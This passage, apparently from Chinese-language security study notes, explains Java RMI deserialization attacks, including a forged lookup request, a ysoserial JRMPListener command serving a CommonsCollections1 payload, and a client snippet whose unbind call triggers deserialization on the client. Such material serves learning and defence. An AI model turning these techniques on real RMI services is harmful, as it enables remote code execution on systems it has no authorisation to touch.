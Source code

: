 ```
        ObjectOutput var3 = var2.getOutputStream();
        var3.writeObject(r);
        ref.invoke(var2);
    }
}

```

看似并没有使用lookup方法，实则是通过伪造了应该lookup请求，重要的并不是lookup方法，主要是通过这个传输信息，最近进入到之前提到的dispatch对应的分支进行反序列化

![image-20220411212810121](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220411212810121.png)

## 攻击客户端

### 注册中心攻击客户端

还是从这几个函数出发

- bind
- unbind
- rebind
- list
- lookup

除了unbind和rebind，其他的都会返回数据给客户端，此时的数据是序列化的数据，所以客户端自然也会反序列化，那么我们只需要伪造注册中心的返回数据，就可以达到攻击客户端的效果啦

```
java -cp ysoserial.jar ysoserial.exploit.JRMPListener 12345 CommonsCollections1 calc
```

![image-20220411221815169](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220411221815169.png)

但是调用unbind也会触发反序列化，实际上这五种方法都可以达到注册中心反打客户端或服务端的目的

```
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class Client2 {
    public static void main(String[] args) throws Exception{
        Registry registry = LocateRegistry.getRegistry("127.0.0.1",12345);
        registry.unbind("test");
    }
}
```

![image-20220411222259223](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220411222259223.png)

### 服务端攻击客户端

服务端攻击客户端，可以分为以下两种情景。

- 服务端返回参数为Object对象
- 远程加载对象
